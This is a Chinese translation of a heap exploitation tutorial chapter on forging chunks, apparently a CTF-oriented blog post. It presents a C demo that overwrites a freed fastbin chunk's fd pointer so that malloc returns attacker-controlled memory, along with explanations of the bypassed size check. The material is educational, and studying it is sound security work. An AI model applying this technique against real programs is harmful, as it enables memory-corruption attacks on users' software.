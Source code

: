 ```yaml
---
title: Heap Exploitation系列翻译-10 Forging chunks
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

在堆块被释放后, 堆块会被插入到一个bin链表中. 然而它的指针在程序中依旧是可用的. 如果攻击这控制了这个指针, 那么他/她便可以修改bin的链表结构并插入他/她自己构造的`伪造`堆块. 以下的示例程序展示了在fastbin的释放链表中如何实现这一攻击.

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

伪造堆块的size设置为0x20, 这一就可以通过安全检查"malloc(): memory corruption (fast)", 这是用来检查堆块大小是否在特定fastbin的代销范围内. 同时要注意, 一块已分配的堆块, 它的存储数据起始于'fd'指针所在的地址. 这也就是为什么在上述程序中, `victim`指针指向了'伪造堆块'更前`0x10`(0x8+0x8)字节的位置处.

fastbin的状态变化如下:

1. 'a' freed.
```
  > head -> a -> tail
```
2. a's fd pointer changed to point to 'forged chunk'.
```
  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
```
3. 'malloc' request
```
  > head -> forged chunk -> undefined
```
4. 'malloc' request by victim
```
  > head -> undefined   [ forged chunk is returned to the victim ]
```
注意以下几点:

* 如果这里同一个bin链表再进行一次'malloc'申请fast chunk将导致段错误(segmentation fault)
* 尽管我们申请10字节大小并且设置伪造堆块的大小为32(0x20)bytes, 但是都在32bytes的fastbins堆块范围内.
* 换作small chunk和large chunk的攻击方法我们将在'House of Lore'见到
* 上述代码运行在64位机器上, 如果要在32位机器上运行, 请将`unsigned long long`换成`unisgned int`, 因为指针长度由8bytes变成了4bytes. 同样, 相比为伪造堆块使用32bytes, 这里用更小的17bytes左右也能奏效.
